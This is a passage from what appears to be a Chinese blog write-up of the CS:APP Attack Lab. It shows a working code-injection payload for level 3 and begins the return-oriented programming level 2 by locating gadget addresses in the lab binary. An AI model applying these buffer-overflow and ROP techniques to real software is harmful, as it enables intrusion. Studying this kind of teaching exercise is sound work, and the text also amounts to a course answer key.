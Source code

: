 运行结果如下：

```bash
name1e5s@sumeru:~/csapp/attacklab-name1e5s/target1$ ./hex2raw < p1l3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 8D 7C 24 10 C3 66 66 35 39 62 39 39 37 66 61 00 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 66 78 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00 66 66 66 66 66 66 66 66 35 39 62 39 39 37 66 61 00
```

### Part II: Return-Oriented Programming

按惯例我们先反汇编下。

### Level 2

本关的要求和上一节 Level 类似，我们要做的就是再给定的限制条件下搞定此问题。根据 WriteUp 上的限制条件，我们只可以使用有限的几个指令。这样我们只能曲线救国，即把我们的 `cookie` 放在栈上然后 `pop` 到合适的地方。也就是说，我们需要执行如下指令:

```
popq %rax
<cookie>
movq %rax,%rdi
<function touch2>
```

众所周知 `popq %rax` 的机器码是 `0x58`，`movq %rax,%rdi` 的机器码为 `0x48 0x89 0xc7`。经过搜索，我们发现在 `4019ab` 处有如下代码：

```
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

其中的 `58 90 c3` 构成如下汇编代码：

```asm
pop %rax
nop
ret
```

在 `0x4019a2` 内有如下代码：

```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3
```

其中的 `48 89 c7 c3`构成如下汇编代码：
